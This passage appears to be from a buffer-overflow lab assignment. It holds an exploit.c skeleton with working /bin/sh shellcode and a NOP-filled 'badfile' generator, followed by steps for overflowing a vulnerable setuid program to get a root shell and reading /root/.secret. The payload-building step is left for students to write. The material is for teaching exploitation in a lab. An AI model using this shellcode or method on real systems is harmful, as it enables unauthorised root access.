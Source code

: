 \begin{verbatim}
/* exploit.c  */

/* A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
char shellcode[]=
    "\x31\xc0"             /* xorl    %eax,%eax              */
    "\x50"                 /* pushl   %eax                   */
    "\x68""//sh"           /* pushl   $0x68732f2f            */
    "\x68""/bin"           /* pushl   $0x6e69622f            */
    "\x89\xe3"             /* movl    %esp,%ebx              */
    "\x50"                 /* pushl   %eax                   */
    "\x53"                 /* pushl   %ebx                   */
    "\x89\xe1"             /* movl    %esp,%ecx              */
    "\x99"                 /* cdq                            */
    "\xb0\x0b"             /* movb    $0x0b,%al              */
    "\xcd\x80"             /* int     $0x80                  */
;

void main(int argc, char **argv)
{
    char buffer[517];
    FILE *badfile;

    /* Initialize buffer with 0x90 (NOP instruction) */
    memset(&buffer, 0x90, 517);

    /* You need to fill the buffer with appropriate contents here */ 

    /* Save the contents to the file "badfile" */
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}

\end{verbatim}

After you finish the above program, compile and run it. This will generate
the contents for ``badfile''. Then run the vulnerable 
program {\tt stack}. If your exploit is implemented correctly, you should 
be able to get a root shell:  

\paragraph{Important:} Please compile your vulnerable program
first. Please note that the program exploit.c, which generates the bad
file, can be compiled with the default Stack Guard protection
enabled. This is because we are not going to overflow the buffer in
this program. We will be overflowing the buffer in stack.c, which is
compiled with the Stack Guard protection disabled.

\begin{verbatim}
  $ gcc -o exploit exploit.c
  $./exploit        // create the badfile
  $./stack          // launch the attack by running the vulnerable program
  # <---- Bingo! You've got a root shell! 
\end{verbatim}
While in the root shell, you are required to display the content of a secret file:
\begin{verbatim}
  cat /root/.secret
\end{verbatim}

